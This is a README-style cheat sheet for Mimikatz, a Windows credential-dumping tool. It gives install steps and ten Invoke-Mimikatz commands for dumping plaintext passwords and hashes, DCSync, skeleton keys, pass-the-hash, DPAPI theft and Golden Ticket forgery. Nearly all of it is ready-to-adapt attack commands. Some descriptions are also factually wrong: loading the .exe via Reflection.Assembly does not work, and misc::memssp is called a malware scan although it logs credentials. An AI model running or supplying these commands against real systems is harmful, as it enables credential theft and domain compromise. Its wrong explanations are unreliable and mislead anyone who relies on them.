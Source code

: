 # Mimikaz Series
Ft Smukx

## What is Mimikaz ?

Mimikatz is a set of Windows-based tools that allows you to dump passwords, hashes, PINs, and Kerberos tickets from memory. It was created by French security researcher Benjamin Delpy and is often used by penetration testers and malware authors.

<img src="https://cdn.cyberpunk.rs/wp-content/uploads/2019/04/mimikatz_tool_bg.jpg" height=350 />

## Steps to install Mimikaz 
To use Mimikatz in PowerShell, you will need to download the Mimikatz binary from the official GitHub repository (https://github.com/gentilkiwi/mimikatz/releases) and save it on your local machine. Then, you can use the following PowerShell command to load the Mimikatz DLL into memory:


```
[Reflection.Assembly]::LoadFile("C:\Path\To\Mimikatz.exe")
```

Replace "C:\Path\To\Mimikatz.exe" with the actual path to the Mimikatz binary on your local machine.


Once the Mimikatz DLL is loaded into memory, you can use the various Mimikatz commands and functions in PowerShell.

## Using Powershell with Mimikaz 

10 PowerShell commands or scripts that only use Mimikatz for various information security purposes:

1. `Invoke-Mimikatz -Command '"sekurlsa::logonPasswords"'`: This command uses Mimikatz to extract plaintext passwords from memory on a local or remote machine. Note that this script requires administrative privileges.

2. `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`: This command uses Mimikatz to dump the local Security Account Manager (SAM) database on a local or remote machine. This can be used to obtain password hashes for offline cracking.

3. `Invoke-Mimikatz -Command '"lsadump::dcsync /user:DOMAIN\USERNAME"'`: This command uses Mimikatz to request domain credentials for a specified user on a local or remote machine. Note that this script requires administrative privileges and access to the domain controller.

4. `Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'`: This command uses Mimikatz to create a skeleton key on a local or remote machine. This can be used to bypass authentication and gain full access to the machine.

5. `Invoke-Mimikatz -Command '"sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:NTLMHASH /run:powershell.exe"'`: This command uses Mimikatz to create a new process with the credentials of a specified user on a local or remote machine. This can be used to run commands as that user.

6. `Invoke-Mimikatz -Command '"misc::memssp"'`: This command uses Mimikatz to perform a memory scan on a local or remote machine. This can be used to detect the presence of certain malware or rootkits.

7. `Invoke-Mimikatz -Command '"dpapi::cache"'`: This command uses Mimikatz to extract DPAPI (Data Protection API) secrets from a local or remote machine. Note that this script requires administrative privileges.

8. `Invoke-Mimikatz -Command '"misc::powershell"'`: This command uses Mimikatz to inject a PowerShell script into memory on a local or remote machine. This can be used to execute arbitrary code on the machine.

9. `Invoke-Mimikatz -Command '"token::elevate" "sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:NTLMHASH /run:powershell.exe"'`: This command uses Mimikatz to elevate privileges to the local Administrator account on a local or remote machine, and then spawn a new PowerShell process with those elevated privileges.

10. `Invoke-Mimikatz -Command '"kerberos::golden /user:USERNAME /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_HASH /ticket:ticket.kirbi"'`: This command uses Mimikatz to forge a Kerberos Golden Ticket for a specified user on a local or remote machine. This can be used to bypass authentication and gain access to other systems in the domain.

